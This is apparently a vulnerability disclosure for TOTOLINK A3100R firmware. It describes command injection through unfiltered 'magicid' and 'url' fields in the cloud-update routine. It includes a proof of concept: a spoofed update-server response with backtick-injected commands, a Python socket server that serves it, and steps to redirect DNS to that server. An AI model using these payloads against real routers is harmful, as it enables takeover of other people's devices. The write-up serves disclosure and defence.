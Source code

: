 # Command Injection

##A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129


##Description:
We have found an issue with function uci_cloudupdate_config in  module cloudupdate_check , parameter "magicid"  and "url" can couse command injection.Hacker can use this  by Man-in-the-middle attack.

##Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

##Analyse：
In function uci_cloudupdate_config as we can  see，there is  no filter with magicid and url，after snprintf it was passed to system. If we pass magicid with `ls`,the command 'ls' will be executed and the result will be written to /tmp/ActionMd5.
![](./img/3.png) 

function trace back：
uci_cloudupdate_config<-parse_upgserver_info<-connect_cloud<-cloudupdate_check

before cloudupdate_check thre is  a init_host_config function call:
![](./img/4.png) 

we can find the server name in this function
![](./img/5.png) 






##reproduct:
1、make a fake sever with  follow response
```
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}
```
you can use payload like follows
```
import socket

sSock=socket.socket()
sSock.bind(('192.168.0.109',80))
sSock.listen(1000)

cSock,addr=sSock.accept()

if(True):
    str1=cSock.recv(1024)
    print("client:"+str1.decode('utf-8'))

    #str2=input('>>>')

    str2='''HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`ls -la`","magicid":"`ls`","version":"1","svn":"","plugin":[],"protocol":"3.0"}'''
    cSock.send(str2.encode())

cSock.close()
```

2、make dnsreslove update.carystudio.com to your fake server

3、reboot the router

4、check /tmp/ActionMd5 and /tmp/DlFileUrl
then we have successfully run command ‘ls’ and ‘ls -la’
![](./img/1.png)

